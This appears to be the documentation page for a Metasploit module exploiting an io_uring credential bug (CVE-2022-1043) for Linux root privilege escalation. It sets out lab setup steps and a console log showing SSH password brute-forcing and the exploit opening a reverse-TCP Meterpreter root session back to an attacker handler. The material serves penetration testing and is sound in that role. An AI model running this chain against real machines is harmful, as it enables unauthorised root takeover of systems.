 ## Vulnerable Application

This module exploits a bug in io_uring leading to an additional `put_cred()`
that can be exploited to hijack credentials of other processes.

We spawn SUID programs to get the free'd cred object reallocated by a
privileged process and abuse them to create a SUID root binary ourselves
that'll pop a shell.

The dangling cred pointer will, however, lead to a kernel panic as soon as
the task terminates and its credentials are destroyed. We therefore detach
from the controlling terminal, block all signals and rest in silence until
the system shuts down and we get killed hard, just to cry in vain, seeing
the kernel collapse.

The bug affected kernels from v5.12-rc3 to v5.14-rc7.

More than 1 CPU is required for exploitation.

Successfully tested against Ubuntu 22.04.01 with kernel 5.13.12-051312-generic

### Install

To install a vulnerable kernel on Ubuntu 22.04.01, follow these instructions:

1. Download the `linux-*` modules for a vulnerable kernel, such as https://kernel.ubuntu.com/~kernel-ppa/mainline/v5.13.12/amd64/
2. Install `libssl.1` (https://askubuntu.com/a/1403683)
   1. `echo "deb http://security.ubuntu.com/ubuntu focal-security main" | sudo tee /etc/apt/sources.list.d/focal-security.list`
   2. `sudo apt-get update`
   3. `sudo apt-get install libssl1.1`
   4. `sudo rm /etc/apt/sources.list.d/focal-security.list`
3. `sudo apt-get install build-essential`
4. `sudo dpkg -i *.deb`
5. Follow [these instructions](https://gist.github.com/chaiyujin/c08e59752c3e238ff3b1a5098322b363) to boot the vuln kernel
6. `sudo reboot`

## Verification Steps

1. Start msfconsole
2. Get an initial user shell
3. Do: `use linux/local/cve_2022_1043_io_uring_priv_esc`
4. Do: `set session #`
5. Do: `run`
6. You should get a root shell.

## Options

## Scenarios

### Ubuntu 22.04.01 with kernel 5.13.12-051312-generic

Gain initial user access

```
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf6 auxiliary(scanner/ssh/ssh_login) > set username ubuntu
username => ubuntu
msf6 auxiliary(scanner/ssh/ssh_login) > set password ubuntu
password => ubuntu
msf6 auxiliary(scanner/ssh/ssh_login) > run
[*] 1.1.1.1:22 - Starting bruteforce
[+] 1.1.1.1:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd) Linux ubuntu2204 5.13.12-051312-generic #202108180838 SMP Wed Aug 18 08:41:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (2.2.2.2:40003 -> 1.1.1.1:22) at 2022-11-25 08:47:08 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i 1
[*] Starting interaction with 1...
id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
^Z
Background session 1? [y/N]  y
```

priv esc

```
msf6 auxiliary(scanner/ssh/ssh_login) > use linux/local/cve_2022_1043_io_uring_priv_esc
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2022_1043_io_uring_priv_esc) > set session 1
session => 1
msf6 exploit(linux/local/cve_2022_1043_io_uring_priv_esc) > set verbose true
verbose => true
msf6 exploit(linux/local/cve_2022_1043_io_uring_priv_esc) > exploit
[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: 
[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Kernel version 5.13.12-051312-generic appears to be vulnerable
[+] The target is vulnerable. > 1 CPU required, detected: 2
[+] gcc is installed
[*] Live compiling exploit on system...
[*] Max line length is 65537
[*] Writing 8074 bytes in 1 chunks of 29166 bytes (octal-encoded), using printf
[*] Writing '/tmp/.5wGdoS' (282 bytes) ...
[*] Max line length is 65537
[*] Writing 282 bytes in 1 chunks of 843 bytes (octal-encoded), using printf
[*] Launching exploit...
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 1.1.1.1
[*] [~] forking helper process...
[+] Deleted /tmp/.iMpuegK0
[+] Deleted /tmp/.5wGdoS
[*] Meterpreter session 2 opened (2.2.2.2:4444 -> 1.1.1.1:35026) at 2022-11-25 17:18:36 -0500

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 1.1.1.1
OS           : Ubuntu 22.04 (Linux 5.13.12-051312-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
